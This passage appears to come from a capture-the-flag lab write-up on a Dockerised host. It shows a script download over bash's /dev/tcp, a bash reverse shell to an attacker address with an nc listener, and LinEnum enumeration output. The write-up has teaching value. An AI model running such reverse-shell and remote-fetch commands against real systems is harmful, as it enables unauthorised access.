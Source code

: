 	ls -la /bin/sh					// what kind of shell?
	
```
/bin/sh -> dash	// if we used bash we could probably run the enumeration script
```

	ls -la /bin/bash												// it exists
	bash -c "cat < /dev/tcp/10.10.16.10/8000 > /dev/shm/LinEnum.sh"	// get it
	md5sum LinEnum.sh												// good
	bash -c "bash -i /dev/shm/LinEnum.sh"							// the script runs

Let's just get a reverse shell:

	nc -lvnp 8002										// listen
	bash -c "bash -i >& /dev/tcp/10.10.16.12/8002 0>&1"	// connect

Explore:

	cd /
	ls -la			// .dockerenv, looks like we're in a Docker environment
	cd /dev/shm

Enumerate using LinEnum: [^1]

	bash LinEnum.sh

Search to the top of the script output without having to Shift+PgUp:

	<Ctrl+Shift>+F	// search for LinEnum and press Enter until you reach the top

```
Linux version 4.4.0-130-generic (buildd@lgw01-amd64-039) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) ) #156-Ubuntu SMP Thu Jun 14 08:53:28 UTC 2018

### NETWORKING  ##########################################
[-] Network and IP info:
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever

[-] ARP history:
172.18.0.1 dev eth0 lladdr 02:42:9a:09:f4:1a REACHABLE


[-] Nameserver(s):
nameserver 127.0.0.11


[-] Default route:
default via 172.18.0.1 dev eth0 


[-] Listening TCP:
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
LISTEN     0      128              127.0.0.11:36852                    *:*     
LISTEN     0      128                      :::1880                    :::*     


[-] Listening UDP:
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
```

[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html